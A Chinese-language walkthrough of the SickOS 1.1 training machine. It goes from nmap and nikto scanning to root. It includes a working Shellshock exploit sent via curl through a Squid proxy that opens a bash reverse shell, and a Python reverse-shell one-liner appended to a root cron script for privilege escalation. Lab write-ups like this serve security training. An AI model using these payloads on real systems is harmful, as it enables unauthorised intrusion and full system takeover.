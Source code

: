 ### 主机发现和nmap扫描

```bash
nmap -sn 192.68.56.0/24
```

靶机ip：192.168.56.105

```bash
nmap -sT --min-rate 10000 192.168.56.105
```

```
PORT     STATE  SERVICE
22/tcp   open   ssh
3128/tcp open   squid-http
8080/tcp closed http-proxy
```

```bash
nmap -sT -sV -sC -O -p22,3128,8080 192.168.56.105
```

```
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
```

### nikto扫描

```bash
nikto -h http://192.168.56.105 -useproxy http://192.168.56.105:3128
```

```
+ /cgi-bin/status: Uncommon header '93e4r0-cve-2014-6271' found, with contents: true.
+ /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
```

发现`shellshock`漏洞

> 漏洞产生原因：目前的Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以`(){`开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

利用curl进行反弹shell

```bash
curl -v -x 192.168.56.105:3128 http://192.168.56.105/cgi-bin/status -H "User-Agent: () { :;};/bin/bash -i >& /dev/tcp/192.168.56.101/1235 0>&1"
```

### 系统立足点

```bash
www-data@SickOs:/var/www$ ls -la            
ls -la
total 28
drwxrwxrwx  3 root     root     4096 Jun  4 20:02 .
drwxr-xr-x 13 root     root     4096 Dec  6  2015 ..
-rw-------  1 www-data www-data 1493 Jun  6 02:01 .bash_history
-rwxrwxrwx  1 root     root      325 Jun  6 01:21 connect.py
-rw-r--r--  1 root     root       21 Dec  5  2015 index.php
-rw-r--r--  1 root     root       45 Dec  5  2015 robots.txt
drwxr-xr-x  5 root     root     4096 Dec  5  2015 wolfcms
www-data@SickOs:/var/www$ cat connect.py
cat connect.py
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

connect.py给的权限是777

### 定时任务提权

```bash
www-data@SickOs:/var/www$ cd /etc
cd /etc
www-data@SickOs:/etc$ ls -lah cron*
ls -lah cron*
-rw-r--r-- 1 root root  722 Jun 20  2012 crontab

cron.d:
total 20K
drwxr-xr-x  2 root root 4.0K Dec  5  2015 .
drwxr-xr-x 90 root root 4.0K Jun  6 00:51 ..
-rw-r--r--  1 root root  102 Jun 20  2012 .placeholder
-rw-r--r--  1 root root   52 Dec  5  2015 automate
-rw-r--r--  1 root root  544 Jul  2  2015 php5
```

查看`automate`文件

```bash
www-data@SickOs:/etc/cron.d$ cat automate
cat automate

* * * * * root /usr/bin/python /var/www/connect.py
```

以root身份执行了这个python脚本

追加反弹shell语句

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.101",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

拿到flag

```bash
root@SickOs:/root# cat a0216ea4d51874464078c618298b1367.txt 
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```

